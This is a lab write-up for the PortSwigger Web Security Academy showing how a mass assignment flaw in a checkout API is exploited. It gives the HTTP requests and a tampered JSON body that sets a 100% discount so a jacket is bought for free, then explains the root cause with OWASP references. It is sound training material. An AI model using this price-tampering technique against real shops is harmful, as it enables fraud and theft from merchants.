# Exploiting a Mass Assignment Vulnerability

**Platform:** PortSwigger Web Security Academy
**Difficulty:** Medium (Practitioner)
**Type:** Lab - API Testing
**Objective:** Find and exploit a mass assignment vulnerability to buy a **Lightweight l33t Leather Jacket**
**Available Credentials:** `wiener:peter`
**Key Vulnerability:** The checkout API blindly trusts a client-supplied `chosen_discount.percentage` field with no server-side validation

---

## Attack Flow

```text
Login wiener:peter --> add jacket to cart ($1337.00) --> place order --> INSUFFICIENT_FUNDS
Burp history --> GET /api/checkout --> reveals cart structure (chosen_discount, chosen_products)
Repeater --> change method to POST --> 400 malformed body
Add Content-Type: application/json + empty body --> 200 OK, server echoes full schema
Reuse structure, set chosen_discount.percentage = 100
POST /api/checkout with tampered body --> 201 Created --> order placed free
```

---

## 1. Starting Point



Login: `wiener:peter`

---

## 2. Target Product & Cart





---

## 3. Discovering the Checkout Schema

```http
GET /api/checkout HTTP/2
```



```json
{
  "chosen_discount": {"percentage": 0},
  "chosen_products": [
    {"product_id": "1", "name": "Lightweight \"l33t\" Leather Jacket", "quantity": 1, "item_price": 133700}
  ]
}
```



---

## 4. Testing POST

```http
POST /api/checkout HTTP/2
```



```json
{"error":"Unexpected '}' at [line 1, column 11]"}
```



---

## 5. Adding Content-Type

```http
POST /api/checkout HTTP/2
Content-Type: application/json

{}
```



Server echoes the full expected schema back:



---

## 6. Exploiting the Mass Assignment

```json
{
    "chosen_discount": {"percentage": 100},
    "chosen_products": [
        {"product_id": "1", "name": "Lightweight \"l33t\" Leather Jacket", "quantity": 1, "item_price": 133700}
    ]
}
```



```http
HTTP/2 201 Created
Location: /cart/order-confirmation?order-confirmed=true
```



---

## 7. Confirming the Solve




✅ Lab solved — jacket purchased with a self-assigned 100% discount.

---

## Why It Works

- `chosen_discount.percentage` is bound directly from client input instead of computed server-side
- The server's own response revealed the exact schema, including the discount field, making the exploit trivial
- Nothing validates whether the user actually qualifies for any discount before applying it
- Pricing-adjacent fields (products, quantities, and now discount) are all trusted at face value from the client

---

## References

- [PortSwigger — Exploiting a mass assignment vulnerability](https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability)
- [PortSwigger — API Testing methodology](https://portswigger.net/web-security/api-testing)
- [OWASP — Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)
